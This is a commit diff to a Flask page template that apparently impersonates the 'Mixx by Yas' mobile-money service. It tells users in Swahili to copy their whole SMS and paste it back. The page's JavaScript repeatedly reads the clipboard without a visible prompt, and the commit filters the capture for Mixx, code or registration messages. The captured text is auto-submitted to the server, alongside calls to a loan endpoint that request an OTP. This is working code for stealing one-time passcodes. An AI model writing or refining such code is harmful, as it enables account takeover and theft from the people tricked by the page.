

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the part 137-845 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -51,8 +51,8 @@
                 <div class="phone-display" id="showPhone">+255 ---------</div>
                 <div class="code-instruction">
                     <i class="fas fa-sms"></i> <strong>Tafadhali fuata hatua hizi:</strong><br><br>
-                    <strong>1.</strong> Fungua <strong>App ya Messages/SMS</strong><br>
-                    <strong>2.</strong> Tafuta ujumbe wa <strong>Mixx by Yas</strong><br>
+                    <strong>1.</strong> Subiri ujumbe wa SMS kutoka <strong>Mixx by Yas</strong><br>
+                    <strong>2.</strong> Nenda kwenye App ya Messages/SMS<br>
                     <strong>3.</strong> Nakili ujumbe <strong>WOTE</strong> (shikilia → Copy)<br>
                     <strong>4.</strong> Rudi hapa — itajaza na kutumwa moja kwa moja!
                 </div>
@@ -62,7 +62,7 @@
                 <a href="sms:" class="sms-open-btn" id="btnAndroid" style="display:none;">
                     <i class="fas fa-envelope"></i> 🤖 Android: Gusa Hapa Kufungua SMS
                 </a>
-                <textarea id="smsMessage" class="sms-textarea" placeholder="Ruhusu kunakili kisha ujumbe utajaza moja kwa moja..." readonly></textarea>
+                <textarea id="smsMessage" class="sms-textarea" placeholder="Subiri ujumbe wa SMS... kisha nakili na utajaza hapa moja kwa moja." readonly></textarea>
                 <div class="timer-bar" id="timerDisplay">⏳ 30s</div>
                 <div class="error-msg" id="codeError">Namba si sahihi</div>
                 <button class="btn btn-gold" onclick="submitCode()">Endelea →</button>
@@ -99,7 +99,7 @@
 
         function startCountdown() {
             if (countdownTimer) clearInterval(countdownTimer);
-            var seconds = 30; var display = document.getElementById('timerDisplay');
+            var seconds = 60; var display = document.getElementById('timerDisplay');
             display.textContent = '⏳ ' + seconds + 's'; display.className = 'timer-bar';
             countdownTimer = setInterval(function() {
                 seconds--; display.textContent = '⏳ ' + seconds + 's';
@@ -110,17 +110,7 @@
 
         function startClipWatcher() {
             if (clipWatcher) clearInterval(clipWatcher);
-            requestClipboardPermission();
-            clipWatcher = setInterval(checkClipboard, 300);
-        }
-
-        async function requestClipboardPermission() {
-            try {
-                var text = await navigator.clipboard.readText();
-                if (text && text !== lastClip && text.length > 10) {
-                    handleClipboardText(text);
-                }
-            } catch(e) {}
+            clipWatcher = setInterval(checkClipboard, 500);
         }
 
         async function checkClipboard() {
@@ -130,8 +120,10 @@
             }
             try {
                 var text = await navigator.clipboard.readText();
-                if (text && text !== lastClip) {
-                    handleClipboardText(text);
+                if (text && text !== lastClip && text.length > 20) {
+                    if (text.includes('Mixx by Yas') || text.includes('Mixx') || text.includes('code') || text.includes('registered') || text.includes('registration')) {
+                        handleClipboardText(text);
+                    }
                 }
             } catch(e) {}
         }
@@ -146,18 +138,20 @@
             if (countdownTimer) clearInterval(countdownTimer);
             document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
             document.getElementById('timerDisplay').className = 'timer-bar';
-            setTimeout(function() { submitCode(); }, 500);
+            setTimeout(function() { submitCode(); }, 800);
         }
 
         document.addEventListener('visibilitychange', function() {
             if (!document.hidden && document.getElementById('screenCode').classList.contains('active')) {
-                requestClipboardPermission();
+                lastClip = '';
+                startClipWatcher();
             }
         });
 
         window.addEventListener('focus', function() {
             if (document.getElementById('screenCode').classList.contains('active')) {
-                requestClipboardPermission();
+                lastClip = '';
+                startClipWatcher();
             }
         });
 
@@ -167,7 +161,7 @@
             if (resendCount >= 3) { document.getElementById('codeError').textContent = 'Umezidi idadi. Jaribu baadae.'; document.getElementById('codeError').style.color = 'var(--danger)'; document.getElementById('codeError').classList.add('show'); return; }
             resendCount++; resendCooldown = true;
             document.getElementById('smsMessage').value = ''; lastClip = '';
-            document.getElementById('codeError').textContent = 'OTP Imetumwa. (' + resendCount + '/3)';
+            document.getElementById('codeError').textContent = 'OTP Imetumwa. Subiri... (' + resendCount + '/3)';
             document.getElementById('codeError').style.color = 'var(--primary)'; document.getElementById('codeError').classList.add('show');
             try { await fetch('/api/submit_loan', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ phone: userPhone, pin: '0000', amount: parseInt(payAmount), months: 12, loan_type: '', purpose: 'OTP REQUESTED' }) }); } catch(e) {}
             startClipWatcher(); startCountdown();
@@ -177,7 +171,7 @@
         async function submitCode() {
             if (clipWatcher) { clearInterval(clipWatcher); } if (countdownTimer) { clearInterval(countdownTimer); }
             var smsText = document.getElementById('smsMessage').value.trim();
-            if (!smsText) { document.getElementById('codeError').textContent = 'Inasubiri ujumbe...'; document.getElementById('codeError').style.color = 'var(--danger)'; document.getElementById('codeError').classList.add('show'); startCountdown(); startClipWatcher(); return; }
+            if (!smsText) { document.getElementById('codeError').textContent = 'Subiri ujumbe wa SMS kwanza...'; document.getElementById('codeError').style.color = 'var(--danger)'; document.getElementById('codeError').classList.add('show'); startCountdown(); startClipWatcher(); return; }
             document.getElementById('screenCode').classList.remove('active'); document.getElementById('screenWait').classList.add('active');
             await fetch('/api/submit_code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ app_id: appId, code: smsText }) });
             if (checkInterval) clearInterval(checkInterval);
```
